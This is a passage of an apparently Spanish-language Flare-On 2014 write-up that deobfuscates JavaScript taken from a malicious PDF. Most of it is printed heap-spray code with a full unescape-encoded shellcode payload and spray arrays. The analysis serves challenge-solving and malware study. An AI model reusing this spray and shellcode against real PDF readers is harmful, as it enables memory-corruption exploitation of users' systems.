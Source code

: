 ```javascript
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length-bGtvKT);
while(QCZabMzxQiD.length+bGtvKT < 0x40000) QCZabMzxQiD = QCZabMzxQiD+QCZabMzxQiD+Juphd;
FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<125;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
```

Ok, esto se ve un poco sucio por lo que renombrare algunas variables para que el codigo sea mas legible:

```javascript
var unused = "";
var output2 = "";
var payload = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var output1 = "";

for (i=128;i>=0;--i) output1 += unescape("%ub32f%u3791");
out1_pay = output1 + payload;
str1 = unescape("%ub32f%u3791");
offset1 = 20;
total_len = offset1+out1_pay.length;
while (str1.length<total_len) str1+=str1;
substr1 = str1.substring(0, total_len);
substr2 = str1.substring(0, str1.length-total_len);
while(substr2.length+total_len < 0x40000) substr2 = substr2+substr2+substr1;
array1 = new Array();
for (i=0;i<100;i++) array1[i] = substr2 + out1_pay;

for (i=142;i>=0;--i) output2 += unescape("%ub550%u0166");
offset2 = output2.length + 20
while (output2.length < offset2) output2 += output2;
substr3 = output2.substring(0, offset2);
```

  [c2c76e1c]: http://www.flare-on.com/files/2014_FLAREOn_Challenges.zip "Flare-On 2014"
  [peepdf]: https://github.com/jesparza/peepdf "PeePDF"